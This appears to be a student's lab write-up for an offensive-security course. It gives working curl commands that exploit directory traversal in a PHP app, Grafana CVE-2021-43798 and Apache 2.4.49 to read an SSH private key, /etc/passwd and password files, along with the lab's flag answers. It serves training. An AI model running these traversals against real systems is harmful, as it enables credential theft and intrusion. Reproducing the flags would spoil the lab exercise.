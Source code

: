 ### 9.1.2

1. Follow the steps above and leverage the directory traversal vulnerability in the "Mountain Desserts" web application on VM #1. Use **curl** or _Burp_ to obtain the SSH private key for the user _offsec_. Use it to connect via SSH on port 2222 and find the flag in the SSH banner, which is displayed after you log in.
```bash
curl -i http://offsec/mountaindesserts.com/meteor/index.php?page=../../../../../../../home/offsec/.ssh/id_rsa
# copy only key part & save in offsec_sshkey file
# tighten up perms on key file
chmod 400 offsec_sshkey
# ssh into machine w/ user's key
ssh -i offsec_sshkey -p 2222 offsec@mountaindesserts.com
```
![](9.1.2ex_sshkey.png)

> Answer:  OS{f1f9402e3eb3a12db339d05dc20243c2}



2. The target VM #2 runs _Grafana_ on port 3000. The service is vulnerable to CVE-2021-43798, which is a directory traversal vulnerability. Search for "golangexample cve-2021-43798" in a search engine to get familiar with how the vulnerability can be exploited. Use **curl** and the **--path-as-is** parameter to find the flag in **C:\\Users\\install.txt**.

For vuln info:
- https://vulncheck.com/blog/grafana-cve-2021-43798
- https://j0vsec.com/post/cve-2021-43798/
- https://grafana.com/grafana/plugins/all-plugins/ - list of plugins
```bash
curl --path-as-is http://192.168.241.193:3000/public/plugins/mysql/../../../../../../../../../../Users/install.txt
```

> Answer:  OS{ddde2d80de63bc146da5725841ddd324}


### 9.1.3 Encoding Special Characters

1. In this section, we used URL encoding to exploit the directory traversal vulnerability in Apache 2.4.49 on VM #1. Use _Burp_ or **curl** to display the contents of the **/opt/passwords** file via directory traversal in the vulnerable Apache web server. Remember to use URL encoding for the directory traversal attack. Find the flag in the output of the file.
```bash
curl http://192.168.196.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords
```
![](dir_traversal_burp.png)

> Answer:  OS{f76b83280db4de60a0870dc915d9ffc7}


2. Grafana is running on port 3000 on VM #2. The version running is vulnerable to the same directory traversal vulnerability as in the previous section. While URL encoding is not needed to perform a successful directory traversal attack, experiment with URL encoding different characters of your request to display the contents of **/etc/passwd**. Once you have a working request utilizing URL encoding, obtain the flag by displaying the contents of **/opt/install.txt**.
```bash
curl http://192.168.196.16:3000/public/plugins/mysql/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/opt/install.txt
```
![](dir_traversal_burp2.png)
	\*Note Host header - 192.168.196.16:3000

> Answer:  OS{682aa00eb7cd162c8a36079ad322a33d}